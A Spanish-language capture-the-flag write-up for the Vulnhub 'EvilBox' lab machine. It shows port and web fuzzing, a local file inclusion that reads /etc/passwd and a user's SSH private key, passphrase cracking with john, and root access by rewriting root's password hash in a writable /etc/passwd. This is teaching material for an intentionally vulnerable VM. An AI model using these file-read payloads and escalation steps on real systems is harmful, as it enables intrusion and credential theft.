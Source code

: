 ```yaml
---
title: Vulnhub - EvilBox
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'LFI', 'Misallocated Privileges']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/EvilBox/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: EvilBox Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **LFI, Misallocated Privileges**

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/EvilBox/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/EvilBox/02-versions.png)

c. Ejecutamos el **script http-enum** de nmap para tratar de descubrir posibles rutas en el servicio web

```bash
nmap -p80 --script http-enum <IP EvilBox>

| http-enum: 
|   /robots.txt: Robots file
|_  /secret/: Potentially interesting folder
```

d. En el directorio **/secret** enumeramos ficheros **.php**

```bash
wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://<IP Evilbox>/secret/FUZZ.php'

000011927:   200        0 L      0 W        0 Ch        "evil"
```

* El archivo **evil.php** se encuentra en el servicio web, pero, no tiene contenido que mostrar, por lo que enumeraremos por posibles parámetros

    ```bash
    wfuzz -c -t 100 --hc=404 --hh=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt 'http://<IP EvilBox>/secret/evil.php?FUZZ=/etc/passwd'

    000012419:   200        26 L     38 W       1431 Ch     "command"
    ```

e. Vemos que si al parámetro **command** le indicamos un archivo lo mostrará

![](/assets/images/Vulnhub/Easy/EvilBox/03-LFI.png)

* **mowree** es un usuario en el sistema, así que trataremos de leer su clave **id_rsa**

    ```bash
    http://<IP EvilBox>/secret/evil.php?command=/home/mowree/.ssh/id_rsa
    ```
    > Con esto obtendremos la clave **id_rsa** para autenticarnos por el servicio SSH

* La clave **id_rsa** está encriptada, por lo que usaremos **ssh2john** para obtener el **hash**

    ```bash
    john hash -w=/usr/share/wordlists/rockyou.txt
    unicorn
    ```

f. Nos conectaremos al servicio **ssh** con las credenciales descubiertas anteriormente

```bash
ssh mowree@192.168.100.18 -i id_rsa
Enter passphrase for key 'id_rsa': unicorn
mowree@EvilBoxOne:~$
```

### Escalada de Privilegios 💹

a. Buscamos por archivos en los cuales tengamos permisos de escritura

```bash
mowree@EvilBoxOne:/$ find / -writable 2>/dev/null | grep -vE "^/usr|^/dev|^/proc|^/sys|^/run"
<SNIP>
/etc/passwd
<SNIP>
```

* Como podemos modificar el archivo **/etc/passwd**, generamos con **openssl** una contraseña para sustituirla aquí.

    ```bash
    openssl passwd hola
    $1$zc4xj9j9$e0D8gcnYdXAxHLr3RluXf1
    ```

    ```bash
    mowree@EvilBoxOne:/$ head -n 1 /etc/passwd
    root:$1$zc4xj9j9$e0D8gcnYdXAxHLr3RluXf1:0:0:root:/root:/bin/bash
    ```

b. Nos convertimos en root con la contraseña **`hola`**

```bash
mowree@EvilBoxOne:/$ su root
Contraseña: hola
root@EvilBoxOne:/#
```